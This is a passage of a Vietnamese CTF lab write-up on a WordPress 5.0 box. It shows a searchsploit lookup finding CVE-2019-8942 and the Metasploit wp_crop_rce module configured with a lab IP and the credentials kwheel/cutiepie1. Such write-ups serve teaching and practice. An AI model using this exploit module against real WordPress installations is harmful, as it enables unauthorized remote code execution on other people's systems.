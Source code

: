 
Ta thấy trang quản lí sử dụng WordPress 5.0, ta dùng searchsploit để tìm kiếm lỗ hổng có thể khai thác từ đây

![Kết quả của searchsploit](image-3.png)

Nhìn kết quả trên ta thấy được lỗ hổng Image Remote Code Execution thuộc [CVE-2019-8942](https://www.exploit-db.com/exploits/49512)

### __Init Access__

#### __Metasploit__

Từ phần trên ta có 2 hướng khai thác bằng Metasploit

```ps1 title="Terminal"
msf6 exploit(multi/http/wp_crop_rce) > options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   cutiepie1        yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.184.240    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                         /basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if provided)
   USERNAME   kwheel           yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host
```
